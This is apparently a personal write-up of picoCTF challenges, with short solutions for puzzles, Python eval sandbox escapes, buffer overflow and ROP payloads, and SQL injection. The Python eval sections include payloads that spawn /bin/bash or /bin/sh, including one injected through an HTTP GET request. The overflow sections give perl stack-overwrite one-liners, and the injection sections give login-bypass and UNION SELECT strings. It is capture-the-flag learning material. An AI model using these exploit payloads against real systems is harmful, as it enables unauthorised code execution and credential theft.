 ## Failure to boot

By guessing you get the flag

```
sda1 .. fail!
fat32.. success!
```

## Read the manual

I have coded ROT-* solver long time ago.. so I tried ROT-* solve and solved this problem.

Decrypted Text:
`IMPORTANT: To enter automatic recovery mode, enter the following recovery key cbcfebeaeeed"`

## XMLOL
You just need to download xml file and open with notepad. But i tried with view-source way.
view-source:https://picoctf.com/problems/xmlol.xml
This flag code was written on the xml file:
`<super_secret_flag>d6b6aba9c44bf3dd58809c46e2c0ffba</super_secret_flag>`

## Technician Challenge
Search about geohot using google and you will find the answer.
I don't exactly remember, but the key is Nissan ~~~

## First Contact
just look through the hex-codes of the pcap file you will find the answer :)

## Python eval 1
`nc python.picoctf.com 6361`
I didnt use eval to do it, because it's still possible to do with an easy math calculation.

## Python eval 2
`nc python.picoctf.com 6362`
the point is that you have to use eval and get the flag.
so I tried the exploit which is shown below:
```
guess> (len(flag), randint(0,9), randint(0,9), randint(0,9), randint(0,9))
guess> (str(flag[:25]), randint(0,9), randint(0,9), randint(0,9), randint(0,9))
i_are_a_pyeval_mastermind
```

## Python eval 3
`nc python.picoctf.com 6363`
__import__ is disabled but you find the working path.
```
> path.os.execl("/bin/bash", "")
cat your_flag_here
eval_is_super_OSsome
```

## Python eval 4
nc python.picoctf.com 6364
	
if GET params like "foo=bar" is sent to server, server will put the get param as {"a":"b"}
so by escaping from the brackets and quote sign, you can execute /bin/sh/ successfully.
```
GET /index.html?a=b"+input(path.os.execl("/bin/sh",""))+"a HTTP/1.1
Host: python.picoctf.com:6364
Connection: keep-alive
cat super_awesome_flag
kids_dont_code_like_this_at_home
```

## harder_serial
just keep your eyes open and understand each lines of the code. 
hint: look for the statement that starts from * 0.
42813724579039578812

## Overflow1
Well, it was easier then expected.
We just need to put variable \x01.
since the variable was before the buffer, I tried
./simple_overwrite $(perl -e 'print "\x41"x64 . "\x01";')

## Overflow2
it was similar question as overflow1, but the variable was little far away.
By using this code below, you can set the variable by overwriting stack.
./stack_overwrite $(perl -e 'print "\x41"x80 . "\x01";')

## Overflow3
The question is to call not_called function, which is from 0x080485f8.
so by using this code below, I have called the function and got the shell.
./buffer_overflow $(perl -e 'print "\x41"x76 . "\xf8\x85\x04\x08";')

## ROP1
The question was to call the function, so..
cat <(perl -e 'print "\x41"x36 . "AAAA" . "\xa4\x84\x04\x08"') - | ./rop1

## ROP2
As the question says, we have to put /bin/bash to the system function.
So, the payload should be something like below:
```
["a"*128][bbbb][&system][cccc][&"/bin/bash"]
But, I couldn't make it successful.
cat <(perl -e 'print "\x41"x128 . "BBBB" . "\xb1\x84\x04\x08" . "CCCC" . "\xa0\x84\x04\x08";') - | ./rop2
```

## Chromatophoria
Painted the background with black color and gotcha!

## GETKey
there's nothing much to do in this question.
if you look at carefully at GET param, which is foo.php?getparam=blah,
you will figure out that the admin param is false and other one is ccdc
so if you change admin param to true and other one as pico or picoctf, you get the right answer.

## Injection
the question seem to be having eregi function to disallow access for the admin.
so, i inserted guest'='guest as userid, in which all the user will be fetched out.
at the end, I got all the userid and the password at one page including the password for the admin :0

## PHP3
this was the md5-based sql injection
the point is that the bug exists in PHP
I don't want to waste my time bruteforcing for the exploit.
so I googled for the code and got the answer using the code from leetctf 2010.

## PHP4
well, again it's the sql injection.
I did the blind sql injection, and the password for admin was 'notarealhash'
so i figured out that you have to make the sql output as the password you want.
so, I used this sql code below as userid so that the password is md5('test');
```' AND 1=0 UNION SELECT '098f6bcd4621d373cade4e832627b4f6'# ```
and password as test. I successfully got the answer.
r